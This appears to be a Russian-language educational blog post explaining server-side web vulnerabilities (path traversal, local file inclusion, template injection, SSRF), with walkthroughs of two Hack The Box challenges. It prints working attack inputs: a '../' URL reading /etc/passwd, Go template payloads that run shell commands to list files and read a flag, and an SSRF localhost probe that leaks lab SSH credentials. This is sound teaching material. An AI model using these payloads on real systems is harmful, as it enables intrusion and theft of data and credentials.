

Всем привет! ~~Не прошло и 4 месяцев как~~ в прошлой статье мы разобрали веб-уязвимости типа client-side. Как и обещал, с небольшим запаздыванием, сегодня поговорим уже о server-side.

Из названия уже понятно, что это какие-то уязвимости, позволяющие нам выполнять определенные действия от лица сервера. Мы теперь говорим голосом сервера, а не собственным. С помощью этих уязвимостей мы можем делать много всего интересного: изменять, просматривать, удалять и красть данные, выполнять собственный код на сервере, изменять конфигурацию сервера или полностью его скомпрометировать для более сложных цепочек атак на другие системы.

Чтош, заваривайте чай, статья обещает быть большой.

## Path Traversal и Local File Read

Для начала поясню, что подразумевает под собой этот класс уязвимостей. Любое веб-приложение работает на ресурсах операционной системы. Не важно, какая она (хотя в большинстве случаев это *nix). У операционной системы есть файловая система. Она представляет собой структуру, которая управляет всеми файлами и каталогами в системе. Уязимости, представленные далее, направлены как раз на взаимодействие с файловой системой. 

**Path (directory) traversal** - это уязвимость, которая позволяет атакующему читать произвольные файлы на сервере. Допустим мы видим на сайте с музыкой, на странице с подгрузкой трека, что загружается `.mp3` файл:

`https://seregapiratmusic.net/album/bests?track=ya_shizoid.mp3`

Давайте заменим track на что-то такое, что точно есть на сервере, где вертится сайт. Например, на `/etc/passwd`. Кто-не понял, что такое этот `/etc/passwd` вот вам сноска

> **Файловая система Linux** 
ФС в Linux представляет собой иерархическое «дерево». Всё начинается с корня - `/` и разрастается далее (см. картинку ниже). Когда мы пишем в терминале переход к директории `cd /home/admin/music`, то ФС понимает, что директория music находится в директории admin, которая находится в директории home, которая находится в корне файловой системы. В нашем случае `/etc/passwd` это файл `passwd`, который содержит информацию о правах всех пользователей в системе, который хранится в директории `/etc` в корне ФС.


**Важное замечание:**

`.mp3` файлы, вероятно, лежат в отдельной директории, изображения в отдельной, html тоже в другой. Но никак не в `/etc/`. Значит, чтобы читать файлы в `/etc/`, надо подняться до корня файловой системы и выбраться из директории, где находится веб-приложение. Если вы уже немножко знакомы с Linux, вы наверняка догадались, что сделать это можно с помощью простого `../../../`. А если не догадались, то для совсем маленьких скажу, что `..` используется для перехода «вверх» на одну директорию в нашей древовидной файловой системе.

Итоговый url у нас получится такой:

`https://seregapiratmusic.net/album/bests?track=../../../../../etc/passwd`

В результате, если уязвимость присутствует, мы получим содержимое файла `/etc/passwd`

```
root:!:0:0::/:/usr/bin/ksh
daemon:!:1:1::/etc:
bin:!:2:2::/bin:
sys:!:3:3::/usr/sys: 
adm:!:4:4::/var/adm:
uucp:!:5:5::/usr/lib/uucp: 
guest:!:5:5::/home/guest:
nobody:!:4294967294:4294967294::/:
lpd:!:9:4294967294::/:
lp:*:11:11::/var/spool/lp:/bin/false 
invscout:*:200:1::/var/adm/invscout:/usr/bin/ksh
nuucp:*:6:5:uucp login user:/var/spool/uucppublic:/usr/sbin/uucp/uucico
paul:!:201:1::/home/paul:/usr/bin/ksh
seregapiratfan:*:202:1::/home/seregapiratfan:/usr/bin/ksh 
```

В зависимости от цели атакующего полезно будет получить исходный код приложения, конфигурации web-сервера или какой-то бинарный файл и так далее. Принцип думаю все поняли.

**Local File Read** - брат-близнец **Path Traversal**. Разница в том, что под PT подразумевается выход за пределы допустимой директории (в нашем случае директория, где находятся файлы веб-приложения). То есть мы можем «гулять» по всей (на самом деле нет, но сделаем допущение) файловой системе. А вот Local File Inclusion (LFR) чаще всего позволяет читать файлы только в одном каталоге (где опять же хранится наше приложение) и спускаться ниже по нему.

## Local File Inclusion

Не отходя от темы чтения произвольных файлов, сразу разберемся, что такое **Local File Inclusion**, и чем он отличается от Path Traversal.

Отличие заключается в том, что LFI позволяет злоумышленнику включить файл, обычно используя сценарий на сервере, и выполнить его из локального каталога на сервере. Эта уязвимость возникает, когда веб-приложение использует несанкционированный пользовательский ввод для создания пути к файлу для выполнения. LFI позволяет выполнять сценарии, которые потенциально могут привести к полной компрометации системы.

Атаки с обходом каталога или обходом пути направлены на доступ к файлам в каталоге, к которому злоумышленник не должен иметь доступа, путем манипулирования переменными, ссылающимися на пути к файлам. Злоумышленнику не обязательно выполнять файл, поскольку основная цель — прочитать конфиденциальные файлы для сбора данных. Этот тип атаки часто используется для сбора информации для будущих атак.


Хотя обе уязвимости безопасности используют механизмы включения файлов веб-приложений, LFI позволяет выполнять сценарии, а Path Traversal обычно используется для несанкционированного доступа к данным.

LFI уже более опасная атака, которую в некоторых случаях можно развить до RCE и полной компрометации сервера.

## Server side template injection

Если у вас есть хотя бы небольшой опыт в разработке веб-приложений (сайтов), вы наверняка сталкивались или слышали такое понятие как «шаблон». Не сильно углубляясь в разработку в контексте безопасности, шаблон можно описать так: это заранее предопределенное выражение, в которое вставляется пользовательский ввод, переменные или другие данные. Если вы не поняли, что я только что написал, есть два предположения, почему так произошло:

1) Я плохо объясняю и вообще пора завязывать писать статьи ~~можно подумать я их пишу постоянно~~

2) А второго я не придумал

В любом случае, ознакомиться с шаблонизаторами можно быстро. Вот дока для популярного Python шаблонизатора **Jinja2**

https://lectureswww.readthedocs.io/6.www.sync/2.codding/3.templates/jinja2.html

Вернёмся к **SSTI**. Уязвимость возникает, когда пользователям доступно изменение и отправка новых шаблонов. Но не всегда удается убрать эту возможность из-за особенностей логики приложения и бизнес процессов. 

Перейдем к эксплуатации и рассмотрим базовые полезные нагрузки на примере всё той же Jinja2. Для других шаблонизаторов всё будет аналогично. Для того, чтобы найти SSTI полезно, как и в случае с множеством других уязвимостей, посмотреть на реакцию сервера на различные нагрузки. Базовой проверкой обычно служит такая нагрузка `{{7*7}}`. Если SSTI присутствует, то на бэкенде произойдет обработка математического выражения и в результате оно посчитается и выведет цифру 49. Конечно, это не всегда сработает, так это простейшая проверка, которая может блокироваться как различными фильтрами, так и  фаерволом.  

В рамках статьи невозможно полностью покрыть все виды и полезные нагрузки SSTI. Поэтому в качестве примера, давайте посмотрим [таск](https://app.hackthebox.com/challenges/537) с Hack The Box, где нас ждет инъекция шаблона в Go. Server side template injection очень критичная уязвимость, которую в некоторых случаях можно развить до RCE. Как раз об этом и будет таск. 

Описание 
> You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!

Нам дается сайт, который рендерит то, что вы передаете ему по ссылке и исходный код таска. 


Давайте сначала просто посмотрим, что будет если передать ему ссылку, например на гугл.


Сайт отрендерился. Гуд. Теперь поглядим исходники (хотя это громко сказано, ведь сервер - это всего лишь 1 файл main.go). Вставлю только самое основное, что есть в коде

```go

func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}

func getIndex(w http.ResponseWriter, r *http.Request) {
	http.Redirect(w, r, "/render?page=index.tpl", http.StatusMovedPermanently)
}

func getTpl(w http.ResponseWriter, r *http.Request) {
	var page string = r.URL.Query().Get("page")
	var remote string = r.URL.Query().Get("use_remote")

	if page == "" {
		http.Error(w, "Missing required parameters", http.StatusBadRequest)
		return
	}

	reqData := &RequestData{}

	userIPCookie, err := r.Cookie("user_ip")
	clientIP := ""

	if err == nil {
		clientIP = userIPCookie.Value
	} else {
		clientIP = strings.Split(r.RemoteAddr, ":")[0]
	}

	userAgent := r.Header.Get("User-Agent")

	locationInfo, err := reqData.GetLocationInfo("https://freeipapi.com/api/json/" + clientIP)

	if err != nil {
		fmt.Println(err)
		http.Error(w, "Could not fetch IP location info", http.StatusInternalServerError)
		return
	}

	reqData.ClientIP = clientIP
	reqData.ClientUA = userAgent
	reqData.ClientIpInfo = *locationInfo
	reqData.ServerInfo.Hostname = reqData.FetchServerInfo("hostname")
	reqData.ServerInfo.OS = reqData.FetchServerInfo("cat /etc/os-release | grep PRETTY_NAME | cut -d '\"' -f 2")
	reqData.ServerInfo.KernelVersion = reqData.FetchServerInfo("uname -r")
	reqData.ServerInfo.Memory = reqData.FetchServerInfo("free -h | awk '/^Mem/{print $2}'")

	var tmplFile string

	if remote == "true" {
		tmplFile, err = readRemoteFile(page)

		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
	} else {
		tmplFile, err = readFile(TEMPLATE_DIR+"/"+page, "./")

		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
	}

	tmpl, err := template.New("page").Parse(tmplFile)
	if err != nil {
		http.Error(w, "Internal Server Error", http.StatusInternalServerError)
		return
	}

	err = tmpl.Execute(w, reqData)
	if err != nil {
		http.Error(w, "Internal Server Error", http.StatusInternalServerError)
		return
	}
}

func main() {
	mux := http.NewServeMux()

	mux.HandleFunc("/", getIndex)
	mux.HandleFunc("/render", getTpl)
	mux.Handle("/static/", http.StripPrefix("/static/", http.FileServer(http.Dir("static"))))

	fmt.Println("Server started at port " + WEB_PORT)
	http.ListenAndServe(":"+WEB_PORT, mux)
}
```

 Итак, что здесь происходит. Первое, что попадается на сайте при его открытии, это некие доступные темплейты, из которых мы можем узнать много интересного о системе. Посмотрим на это в сорсах. 

```go
  reqData.ClientIP = clientIP
	reqData.ClientUA = userAgent
	reqData.ClientIpInfo = *locationInfo
	reqData.ServerInfo.Hostname = reqData.FetchServerInfo("hostname")
	reqData.ServerInfo.OS = reqData.FetchServerInfo("cat /etc/os-release | grep PRETTY_NAME | cut -d '\"' -f 2")
	reqData.ServerInfo.KernelVersion = reqData.FetchServerInfo("uname -r")
	reqData.ServerInfo.Memory = reqData.FetchServerInfo("free -h | awk '/^Mem/{print $2}'")
  ```

  У нас есть функция `FetchServerInfo`, которая вызывает команды шелла

  ```go 
  func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
  }
```

Значит нам надо вызвать свою команду для чтения флага. Для этого нам надо создать страницу с шаблоном и командой для исполнения. Сделаем это. 

Для этого есть много бесплатных сервисов, которые могут на короткое время захостить наш шаблон. Я воспользовался [этим](https://tiiny.host/)

Создаем шаблон 


Хостим его 


Копируем, вставляем, переходим


Почти победа. Осталось только найти флаг и прочитать его. Для этого редактируем шаблон на `{{ .FetchServerInfo "cd ..; ls -la"}}`


`{{ .FetchServerInfo "cat ../flag2b3aee9d86.txt"}}`


## Server side request forgery

Server Side Request Forgery или просто SSRF - это уязвимость, которая позволяет злоумышленнику отправлять запросы от лица сервера на непредусмотренные ресурсы. Последствия от этой уязвимости могут быть совершенно разные: от доступа к конфеденицальным данным до выполнения команд. 

Запросы могут быть как отправлены обратно на сервер (т.е на локалхост), так и на внутренние ресурсы, к которым у простого юзера доступа нет. 

Чтобы не лить воду, сразу разберем уязвимость на примере коробки всё с того же HTB. 

Так как это машина текущего сезона, то вы вправе избежать спойлера. Так что, если вы хотите сами, просто перемотайте дальше. В качестве компенсации вот вам Fanter


## HTB Editorial

У нас есть сайтик, ничего интересного. Есть функция добавления книги на проверку для публикации


Картинку для превью можно либо загрузить, либо вставить ссылку на неё. Спойлер - реверс шелл через загрузку не предусмотрен. Значит на лицо SSRF через ссылку на картинку. Попробуем указать `http://127.0.0.1` и посмотрим что будет. 



~~Ничего не происходить на площади тяньаньмэнь~~

Попробуем перебрать порты локалхоста


На 5000 порту у нас есть респонс с uuid, в то время как на других у нас просто возвращается 

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 22 Jun 2024 13:38:13 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 61

/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg
```

Попробуем подставить uuid и посмотреть, что нам вернётся. 

Отправляем пост-запрос с нашим uuid. После чего отправляется гет-запрос на ручку с юидом. Респонс: 

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 22 Jun 2024 13:55:44 GMT
Content-Type: application/octet-stream
Content-Length: 911
Connection: close
Content-Disposition: inline; filename=9aace5fb-bb82-4609-bda4-2d8553d2feeb
Last-Modified: Sat, 22 Jun 2024 13:55:37 GMT
Cache-Control: no-cache
ETag: "1719064537.332015-911-123410786"

{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

Как мы видим на 5000 порту у нас есть некое апи. После прогулки по ручкам, в `/api/latest/metadata/messages/authors` нас ждет такое сообщение

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 22 Jun 2024 13:58:30 GMT
Content-Type: application/octet-stream
Content-Length: 506
Connection: close
Content-Disposition: inline; filename=5dc24a6b-57b6-4626-b3aa-87b449f380d5
Last-Modified: Sat, 22 Jun 2024 13:58:25 GMT
Cache-Control: no-cache
ETag: "1719064705.2600212-506-4093581383"

{"template_mail_message":"Welcome to the team! 
We are thrilled to have you on board and can't wait to see 
the incredible content you'll bring to the table.\n\nYour 
login credentials for our internal forum and 
authors site are:
\nUsername: dev\nPassword: dev080217_devAPI!@\n
Please be sure to change your password as soon as possible for security purposes.\n\n
Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.
\n\nBest regards, Editorial Tiempo Arriba Team."}
```

Мы получили креды, которые подходят для ssh 

```
dev@editorial:~$ whoami
dev
```

Получение рута выходит за рамки темы, но повышение привелегий не сильно сложное и интересное

## Заключение 

Мы рассмотрели главные уязвимости типа server-side. Это прям самая база и, разумеется, на любом кзф будет что-то более идейное и сложное, но данная статья ставилась как цель для введения в тему. Двумя разобранными тасками это подтверждается. 


